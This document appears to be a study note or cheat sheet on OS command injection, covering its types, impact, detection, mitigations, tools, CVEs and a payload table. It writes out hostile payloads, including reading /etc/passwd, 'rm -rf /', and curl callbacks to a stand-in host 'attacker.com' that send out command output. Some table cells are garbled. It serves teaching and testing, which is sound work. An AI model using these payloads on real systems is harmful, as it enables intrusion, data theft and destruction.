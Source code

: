 # Command Injection

A critical vulnerability that occurs when an attacker is able to **inject and execute arbitrary system-level commands** (e.g., Bash, PowerShell) on the server through a vulnerable application  
Injecting OS commands into vulnerable input fields.

# Example 

ping=127.0.0.1; cat /etc/passwd  
POST /ping?ip=127.0.0.1; cat /etc/passwd  
Then ; cat /etc/passwd is executed after ping, revealing sensitive system data.

# Impact

| Type | Description |
| :---- | :---- |
| Remote Code Execution (RCE) | Attacker runs arbitrary system commands |
| Privilege Escalation | If app runs as root/admin |
| Data Theft | Exfiltration of sensitive files |
| Persistence | Install backdoors, cron jobs, malware |
| System Compromise | Destroy system, add users, change permissions |

# Types of Command Injection

**1\. Simple Command Injection**

* **Definition**: Injecting commands using separators like ;, &&, |, ||.

* **Example**: ip=127.0.0.1; ls

* **Mitigation**: Validate and sanitize input, use safe APIs (see below).

**2\. Blind Command Injection**

* **Definition**: No visible response, but command still runs.

* **Example**: ip=127.0.0.1; ping \-c 5 attacker.com

* **Mitigation**: Use time-based or out-of-band detection (e.g., ping, DNS logs).

**3\. Out-of-Band Injection (OOB)**

* **Definition**: Attacker uses DNS, HTTP, ICMP callbacks to observe result.

* **Example**: ip=127.0.0.1; curl [http://attacker.com/\`whoami\`](http://attacker.com/%60whoami%60)

* **Mitigation**: Block external outbound access, alert on anomalous DNS.

**4.Chained Commands**

* **Definition**: Using && or || to run multiple commands conditionally.

* **Example**: ip=127.0.0.1 && rm \-rf /

# Detection Techniques

| Technique | Tool | Description |
| :---- | :---- | :---- |
| Manual Tampering | Burp Suite, Postman | Inject ; ls, \` |
| Time Delay | Add sleep 10 and measure response delay |  |
| Out-of-band | DNS-based (e.g., ping attacker.com) |  |
| Source Review | Look for exec(), system(), popen() in source code |  |
| Fuzzing | wfuzz, ffuf | Input injection payloads in all parameters |

# Command Injection Payloads

| Payload | Result |
| :---- | :---- |
| ; whoami | Returns system user |
| \` | id\` |
| && cat /etc/passwd | Shows Linux users |
| \` | powershell "Get-ChildItem"\` |
| ; curl attacker.com/\\whoami\`\` | Out-of-band callback |

# Mitigation: 

| Control Type | Strategy |
| :---- | :---- |
| Use Safe APIs | Use execFile(), spawn() (Node), subprocess.run() (Python) with argument lists |
| Input Validation | Allowlist known good inputs (e.g., IP regex) |
| Avoid Shell Calls | Don’t pass user input to system shell |
| Least Privilege | Web app should run as limited user, not root/admin |
| WAF Rules | Detect common payloads (e.g., ;, \` |
| Escape Input (Last Resort) | If shell use is unavoidable, escape special characters |

Avoid direct command execution with user input. Use parameterized APIs.

# Testing Tools

| Tool | Use |
| :---- | :---- |
| Burp Suite | Manual fuzzing |
| Commix | Automated command injection scanner |
| WFuzz / FFUF | Wordlist-based injection |
| DNSlog.cn / interact.sh | OOB DNS callback |
| OWASP ZAP | Passive command injection detection (limited) |

# Points

“Command Injection is often exploitable even in internal apps, especially when admins trust user input (e.g., diagnostic tools).”

“Use safe command invocation APIs and to avoid string-based system calls entirely.”

“Detection often involves timing, blind, or OOB techniques, especially if no visible output is returned.”

# Famous CVEs / Breaches

| Vulnerability | Impact |
| :---- | :---- |
| CVE-2014-6271 (Shellshock) | Bash command injection in HTTP headers |
| GitLab RCE (2021) | Command injection in CI/CD variables |
| Equifax Breach (2017) | Started with Apache Struts RCE via command injection |

# Proof-of-Concept (PoC) for Burp:

?target=127.0.0.1  
?target=127.0.0.1; whoami  
Observe if output changes, if delayed → possible blind injection